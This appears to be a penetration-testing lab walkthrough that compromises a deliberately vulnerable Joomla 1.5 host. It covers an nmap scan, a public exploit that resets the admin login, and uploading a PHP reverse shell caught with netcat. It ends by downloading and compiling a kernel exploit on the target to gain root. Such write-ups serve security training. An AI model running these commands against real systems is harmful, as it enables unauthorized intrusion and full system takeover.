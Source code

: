 # Exploiting Joomla

## Port scanning

Let's scan the target machine (`canyoupwnme`) with `nmap`

    $ nmap -A -T4 -sT -p1-65535 canyoupwnme
    ...
    8081/tcp  open  http        Apache httpd 2.4.7 ((Ubuntu))
    |_http-generator: Joomla! 1.5 - Open Source Content Management
    | http-methods:
    |_  Supported Methods: GET HEAD POST OPTIONS
    | http-robots.txt: 14 disallowed entries
    | /administrator/ /cache/ /components/ /images/
    | /includes/ /installation/ /language/ /libraries/ /media/
    |_/modules/ /plugins/ /templates/ /tmp/ /xmlrpc/
    |_http-server-header: Apache/2.4.7 (Ubuntu)
    |_http-title: Welcome to the Frontpage
    ...

Seems that Jooma v1.5 is up and running...

## Let's go Googling...

After few seconds I found this one

    https://www.exploit-db.com/exploits/6234

and it worked! The new credentials are

    admin : admin

## Prepare the target machine

Joomla supports media uploading, so we can use this feature to upload a
reverse shell. The first step is to enable the `php` extension as "safe"
content. On the Joomla management interface, go to

    Site > Global Configuration > System > Media Settings

and append `php` to the extensions list.

## Prepare the reverse shell

On the attacker machine, prepare the "magic" PHP file

    $ wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz
    $ tar zxvf php-reverse-shell-1.0.tar.gz
    $ cd php-reverse-shell-1.0/
    $ vim php-reverse-shell.php # set IP and PORT (1234)
    $ mv php-reverse-shell.php magic.php

and start listening

    $ nc -lnvp 1234
    listening on [any] 1234 ...

## Upload the shell

On the Joomla management interface, go to

    Site > Media Manager

and upload the `magic.php` file. Then, go to

    http://canyoupwnme:8081/images/magic.php

You should see something interesting on your terminal with `nc`...

    $ nc -lnvp 1234
    listening on [any] 1234 ...

    connect to [10.0.100.245] from canyoupwnme.pentest [10.0.100.195] 54878
    Linux canyoupwnme 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux
    ...

## Becoming `root`

On the attacker machine, spawn a new `tty` shell

    $ python -c "import pty; pty.spawn('/bin/bash');"
    www-data@canyoupwnme:/$

Download, build and execute the local exploit

    www-data@canyoupwnme:/$ cd /tmp
    www-data@canyoupwnme:/tmp$ mkdir ofs && cd ofs
    www-data@canyoupwnme:/tmp$ cd ofs
    www-data@canyoupwnme:/tmp/ofs$ wget https://www.exploit-db.com/download/39166 -O ofs.c
    www-data@canyoupwnme:/tmp/ofs$ gcc ofs.c
    www-data@canyoupwnme:/tmp/ofs$ ./a.out
    root@canyoupwnme:/tmp/ofs# id
    uid=0(root) gid=33(www-data) groups=0(root),33(www-data)

Got it!
